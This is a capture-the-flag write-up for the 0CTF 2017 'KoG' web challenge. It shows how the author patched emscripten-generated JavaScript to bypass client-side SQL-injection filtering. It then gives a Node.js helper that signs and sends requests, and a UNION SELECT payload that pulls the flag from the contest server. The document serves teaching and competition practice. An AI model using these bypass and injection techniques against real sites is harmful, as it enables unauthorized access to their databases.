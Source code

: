 +++
title = "0CTF 2017 - KoG"
date = "2017-03-19T21:11:57-07:00"
tags = ["CTF", "Web", "SQLi"]
+++

Do you know you can run your C++ program in browser?

<!--more-->

# Problem

> King of Glory is a funny game. Our website has a list of players.  
> http://202.120.7.213:11181

# Solution

Hitting the given URL doesn't show anything interesting, but the page source code indicating it was looking for `id`
parameter.  So try it with `?id=1`, we can see it made a request to api.php with some interesting parameters.

```
http://202.120.7.213:11181/api.php?id=1&hash=035c6d4adf335c31e884796a11a2590f&time=1489983725
```

Ha, looks like it hashes `id` using current time as salt and use that hash to validate at server side for integrity.
If you try to put some SQLi stuff in `id`, it will reject hash generation, which happens in client side.
So the goal is pretty straightforward: bypass client side SQLi detection, generate hash and inject the server!

Now it comes the hard part: the [hash generation code][1] is the most complex Javascript code I have ever seen.  Tracing
into `Module.main`, I see memory allocators, function maps, and even function name that suggests system calls.
What The Heck!

Googling around I figured it out: it was compiled from C/C++, using [emscripten][2].

> Emscripten is an LLVM-based project that compiles C and C++ into highly-optimizable JavaScript in asm.js format.
> This lets you run C and C++ on the web at near-native speed, without plugins.

The bad news, there is little, if not none, tools to reverse engineer generated Javascript code.

The good news, it is still plain text, far better than ELF binary. It is easy to inject tracing code, run it with and
without SQLi characters and compare the call sequence to find out where to apply patches.

The function in question was `__Z10user_inputNSt3__112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEEE`. After
commenting out following two if blocks, it generates hash for any input.

```javascript
if (!($13)) {
 ;HEAP32[$agg$result>>2]=HEAP32[$s>>2]|0;HEAP32[$agg$result+4>>2]=HEAP32[$s+4>>2]|0;HEAP32[$agg$result+8>>2]=HEAP32[$s+8>>2]|0;
 ;HEAP32[$s>>2]=0|0;HEAP32[$s+4>>2]=0|0;HEAP32[$s+8>>2]=0|0;
 __ZNSt3__112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEED2Ev($te);
 __ZNSt3__112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEED2Ev($s);
 STACKTOP = sp;return;
}
```

```javascript
if ((label|0) == 12) {
 ;HEAP32[$agg$result>>2]=HEAP32[$s>>2]|0;HEAP32[$agg$result+4>>2]=HEAP32[$s+4>>2]|0;HEAP32[$agg$result+8>>2]=HEAP32[$s+8>>2]|0;
 ;HEAP32[$s>>2]=0|0;HEAP32[$s+4>>2]=0|0;HEAP32[$s+8>>2]=0|0;
 __ZNSt3__112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEED2Ev($te);
 __ZNSt3__112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEED2Ev($s);
 STACKTOP = sp;return;
}
```

Now it becomes a simple SQLi task.  First use `order by` trick to find out number of columns in the `select` statement.
Then query `information_schema.tables` and `information_schema.columns` to find table and column in question.

It is handy to write a simple `main.js` that does the hash and curl so no need to copy-paste around.

```javascript
var Module = require('./functionn.js');

var q = process.argv[2];
var hash = Module.main(q).split('|');

var req = 'http://202.120.7.213:11181/api.php?id=' + encodeURI(q) + '&hash=' + hash[0] + '&time=' + hash[1]
console.log(req);

var spawn = require('child_process').spawn;
var curl = spawn('curl', [req]);

curl.stdout.on('data', (data) => {
  console.log(`response: ${data}`);
});
```

```
$ node main.js "1 union all select 1,hey from fl4g"
http://202.120.7.213:11181/api.php?id=1%20union%20all%20select%201,hey%20from%20fl4g&hash=c2f05acaf2f91ba81b8c9b3ce2304da7&time=1489882992
response: EaseSingle Qinflag{emScripten_is_Cut3_right?}
```

[1]: /0ctf-2017/functionn.js
[2]: http://kripken.github.io/emscripten-site
